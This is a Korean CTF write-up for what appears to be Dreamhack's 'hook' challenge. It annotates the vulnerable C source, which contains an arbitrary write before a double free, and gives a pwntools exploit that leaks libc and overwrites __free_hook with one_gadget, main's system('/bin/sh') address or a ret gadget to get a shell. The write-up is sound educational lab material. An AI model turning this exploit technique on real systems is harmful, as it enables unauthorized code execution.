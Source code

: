 ### 1. 파일 정보

file ./hook
./hook: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=da0d626a71b7c949de9d0f49b0174d73b8e76ea5, not stripped

checksec --file=./hook  
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH        Symbols         FORTIFY Fortified       Fortifiable     FILE
Full RELRO      Canary found      NX enabled    No PIE          No RPATH   No RUNPATH   80 Symbols          No    0               2               ./hook

해당 바이너리에 Full RELRO 가 적용되어 있는 것을 확인할 수 있다. 따라서 다른 문제들과 달리  GOT Overwrite가 불가능하다. 
Canary가 존재하고, NX가 적용되었다.
PIE는 적용되지 않아 바이너리의 원하는 함수 혹은 가젯의 주소를 알 수 있다.

### 2. C 소스파일 분석
``` c
// gcc -o init_fini_array init_fini_array.c -Wl,-z,norelro
#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>

void alarm_handler() {
    puts("TIME OUT");
    exit(-1);
}

void initialize() {
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);
    signal(SIGALRM, alarm_handler);
    alarm(60);
}

int main(int argc, char *argv[]) {
    long *ptr;
    size_t size;

    initialize();

    /*
    stdout은 C 표준 라이브러리(libc) 안에 존재하는 전역 구조체 포인터이다.
    따라서 stdout의 주소를 알면, 현재 실행중인 프로세스에서 libc가 어느 위치에 매핑되었는지를 알 수 있다.
    즉, libc base address를 유추 가능
    ASLR이 걸려 있어도 stdout 같은 라이브러리 심볼의 실제 주소를 알면 libc 전체 오프셋을 계산할 수 있다.
    */
    printf("stdout: %p\n", stdout);

    /*
    %ld : long decimal
    */
    printf("Size: ");
    scanf("%ld", &size);

    /*
    heap 영역에 size 바이트 만큼 메모리를 동적으로 할당.
    성공하면 새로 할당된 메모리의 시작주소(포인터)를 반환
    실패하면 NULL 반환.
    */
    ptr = malloc(size);

    printf("Data: ");
    read(0, ptr, size);

    /*
    1. ptr의 타입
    long *ptr; 이라 했으니 ptr은 long 타입의 데이터를 가리키는 포인터이다.
    즉, ptr은 malloc으로 할당한 힙 메모리의 시작 주소를 가리키고 있다.
    
    2. 입력 직후 메모리 구조
    read(0.ptr, size);
    사용자가 입력한 값이 ptr이 가리키는 힙에 저장된다.
    예를 들어, 사용자가 16바이트를 입력했다고 하면:
    ptr[0] = 입력한 첫 8바이트
    ptr[1] = 입력한 두 번째 8바이트

    3. 오른쪽 *(ptr+1)
    ptr+1 -> 두 번재 long(즉, ptr[1])
    *(ptr+1) -> 그 값을 꺼냄.
    즉, 입력값의 두 번째 8바이트

    4. 왼쪽 *(logn *)*ptr
    *ptr -> 입력한 첫번째 8바이트 값(숫자)
    이 숫자를 (long *)로 캐스팅 -> 주소로 취급
    *(long *)*ptr -> 그 주소에 있는 8바이트 메모리에 접근
    즉, 입력한 첫 8바이트를 "주소"로 보고, 그 주소에 값을 써라 는 의미.

    예시.
    입력한 데이터
    [0x601018][0xdeadbeefcafebabe]
    ptr[0] = 0x601018
    ptr[2] = 0xdeadbeefcafebabe 
    ==> 메모리주소 0x601018에 0xdeadbeefcafebabe를 써라.
    ==> 입력값의 첫 8바이트 = 주소, 두 번재 8바이트 = 값 -> 그 주소에 그 값을 써라.
    ==> 즉, Arbitrary Write(임의 주소 쓰기) 취약점 발생.
    */
    *(long *)*ptr = *(ptr+1);

    /*
    free(ptr)을 2회 실행하고 있다. 이는 에러를 일으키기 때문에, free 함수가 변조없이 그대로 실행된다면 다음 라인에 있는 system 함수를 실행할 수 없다.
    */
    free(ptr);
    free(ptr);

    system("/bin/sh");
    return 0;
}
```

main 함수의 마지막에서는 system("/bin/sh")로 셸이 실행되나, 그 직전에 free(ptr); 을 2회 실행한다.
free 함수가 호출되기 때문에 \_\_free_hook을 다른 함수 주소로 덮는다면 두번의 free를 성공적으로 패스하고 system("/bin/sh") 함수 기능을 수행할 수 있을 것이다.

### 3. 익스플로잇

#### 1) libc base 계산
``` python
from pwn import *

'''
e -> 바이너리 파일 ./hook 파싱(함수, GOT, PLT, 섹션정보 등)
libc -> libc-2.23.so ELF 파싱(함수와 변수 offset 확인 가능)
'''
p = process("./hook")
p = remote("host1.dreamhack.games", 24295)
e = ELF("./hook")
libc = ELF("libc-2.23.so")

'''
C 프로그램이 출력한 stdout 주소를 읽어오는 부분.
recvuntil -> "stdout: " 문자열까지 읽고, 이후 숫자만 읽음.
int(..., 16) -> p.recvline()로 받은 문자열을 16진수 정수로 변환.
int("0x7ffff7dd5620", 16)   # 0x7ffff7dd5620 -> 140737351450336(결과는 10진수로 표시됨.
hex()를 이용해서 16진수 정수로 확인할 수 있다.
glibc 내부에서 stdout 전역변수의 실제 심볼 이름은 stdout이 아니라 _IO_2_1_stdout_이다.
libc.symbols["_IO_2_1_stdout_"] → ELF 내부 offset (예: 0x3c5620)
leak된 stdout 주소와 offset 차이를 빼면 → libc 전체가 메모리에 어디에 로드되었는지(base 주소) 계산 가능
'''
p.recvuntil(b"stdout: ")
stdout = int(p.recvline(), 16)
libc_base = stdout - libc.symbols["_IO_2_1_stdout_"]

print(hex(libc_base))
```

#### 2) \_\_free_hook 변조
``` python
'''
키보드로 16 치고 Enter 누른 것과 동일
C 소스코드에 아래와 같이 되어있다. size 변수에 16이 들어가는 결과를 가져옴.
    printf("Size: ");
    scanf("%ld", &size);
'''
p.sendline(b"16")

'''
ibc.symbols["__free_hook"] → __free_hook의 libc 내부 오프셋
libc_base + offset → 메모리에 로드된 실제 주소 계산
즉, hook 변수에는 __free_hook의 런타임 주소가 들어감.

__free_hook
: glibc에서 free() 가 호출될 때 실행되는  함수 포인터
: 임으로 덮으면, free() 호출 시 원하는 함수(system)를 실행 가능.
'''
hook = libc_base + libc.symbols["__free_hook"]

'''
p64() -> 64비트 리틀 엔디안으로 정수->8바이트 bytes로 변환
tcache poisoning 공격에서는 보통:
    첫 8바이트: target 주소(__free_hook)
    두 번째 8바이트: 쓰고 싶은 값(system 주소)
'''
payload = p64(hook) + p64(???)

'''
프로그램이 "Data: " 출력할 때까지 기다린 후, payload 전송
내부적으로는 read()를 통해 입력값이 힙에 쓰임
exploit에서는 tcache / fastbin을 조작하여 __free_hook 에 system 주소를 쓰도록 하는 단계
'''
p.sendlineafter(b"Data: ", payload)

p.interactive()
```

#### 3) p64(???) 두번째 바이트에 어떤 주소를 사용할 수 있는가?

##### one_gadget
```
$ one_gadget libc-2.23.so
0x4527a execve("/bin/sh", rsp+0x30, environ)
constraints:
  [rsp+0x30] == NULL || {[rsp+0x30], [rsp+0x38], [rsp+0x40], [rsp+0x48], ...} is a valid argv

0xf03a4 execve("/bin/sh", rsp+0x50, environ)
constraints:
  [rsp+0x50] == NULL || {[rsp+0x50], [rsp+0x58], [rsp+0x60], [rsp+0x68], ...} is a valid argv

0xf1247 execve("/bin/sh", rsp+0x70, environ)
constraints:
  [rsp+0x70] == NULL || {[rsp+0x70], [rsp+0x78], [rsp+0x80], [rsp+0x88], ...} is a valid argv
```

```
one_gadget = libc_base + [0x4527a, 0xf03a4, 0xf1247][0]
```
하지만 one_gadget은 확률적으로 작동하지 않는 경우가 많다.

##### main의 system("/bin/sh")
main에서 system 함수만을 실행하는 것이 아닌, 정확히 "/bin/sh" 라는 인자까지 같이 실행해 주기 때문에 해당 위치의 주소를 받아와서 셸을 실행 가능하다.
PIE가 걸려있지 않기 때문에 main 의 주소가 정적이고, 따라서 main의 system("/bin/sh") 주소 또한 정적이다.
```
   0x0000000000400a11 <+199>:   mov    edi,0x400aeb
   0x0000000000400a16 <+204>:   call   0x400788 <system@plt>
```

```
main_system_sh = 0x400a11
```

##### printf 혹은 puts
이번에는 셸을 직접 실행시키는 것이 아닌, free 함수가 2회 실행될 시 에러만을 피해 main의 system("/bin/sh") 에 도달하여 셸을 획득해 보자.

gdb ./hook 에서
disass main 하고 printf의 주소 확인

##### ret 가젯
ret 가젯은 아무 명령을 수행하지 않고, 바로 다시 기존 위치로 돌아온다. 따라서 2회 시행되어도 문제가 생기지 않는다.
PIE가 없기 때문에 바이너리에 있는 가젯을 사용하여도 되고,  libc base를 알고 있기 때문에 libc에 있는 가젯을 사용하여도 된다.
```
ret_binary = ROP(e).find_gadget(["ret"])[0]
ret_libc = libc_base + ROP(libc).find_gadget(["ret"])[0]
```

